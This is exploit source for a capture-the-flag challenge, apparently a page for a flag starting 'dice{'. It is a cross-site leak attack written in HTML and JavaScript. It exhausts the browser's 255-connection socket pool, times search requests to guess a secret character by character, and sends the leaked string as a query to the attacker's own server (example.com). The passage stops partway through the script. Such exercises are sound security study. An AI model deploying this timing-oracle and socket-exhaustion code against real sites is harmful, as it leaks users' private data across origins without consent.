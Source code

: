 ```html
<button onclick="popunder()">open popup</button>
<button onclick="exhaust_sockets()">open 255 connections</button>
<button onclick="oracle('dice{abc')">test search "abc" (slow)</button>
<button onclick="oracle('dice{xxx')">test search "xxx" (fast)</button>
<br>
<br>
<h2 id=output></h2>
<br>
<form id=x action="" method="POST" style="display:none;">
<input type="text" name="title" placeholder="title">
<br><br>
<input type="number" name="priority" placeholder="priority" value=9999>
<br><br>
<textarea name="content" placeholder="content" rows="5" cols="20"></textarea>
<br><br>
<input type="submit" value="submit">
</form>

<script>

// this is send is used as logging
LOG = 'Starting'
// 255 in normal chrome, 99 in headless
SOCKETLIMIT = 255;
// default
TIMELIMIT = 800;
INSTANCE = ''
MYSERVER = `example.com`

const sleep = (ms) => {
return new Promise(resolve => {
setTimeout(resolve, ms);
});
}

const time_fetch = async() => {
let test_server_url = `https://${MYSERVER}/?${LOG}`;
let start = window.performance.now();
try {
await fetch(test_server_url, {
mode: 'no-cors'
});
} catch (e) {
console.log(e);
}
let end = window.performance.now();
return end - start;
}

const fetch_sleep_long = (i) => {
// 40s sleep
return fetch(`https://${i}.${MYSERVER}/40sleep`, {
mode: 'no-cors'
});
}

const fetch_sleep_short = (i) => {
// 0.25s sleep
return fetch(`https://${i}.${MYSERVER}/ssleep`, {
mode: 'no-cors'
});
}

```